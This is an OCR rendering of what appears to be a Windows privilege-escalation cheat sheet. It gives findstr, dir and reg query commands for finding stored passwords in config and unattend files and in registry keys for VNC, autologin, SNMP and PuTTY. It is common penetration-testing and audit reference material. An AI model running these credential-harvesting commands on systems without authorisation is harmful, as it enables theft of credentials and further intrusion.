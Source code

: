 ## Search for them

findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

### Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

### Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*

## In Files

These are common files to find them in. They might be base64-encoded. So look out for that.

c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

## In Registry

### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

### SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

### Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
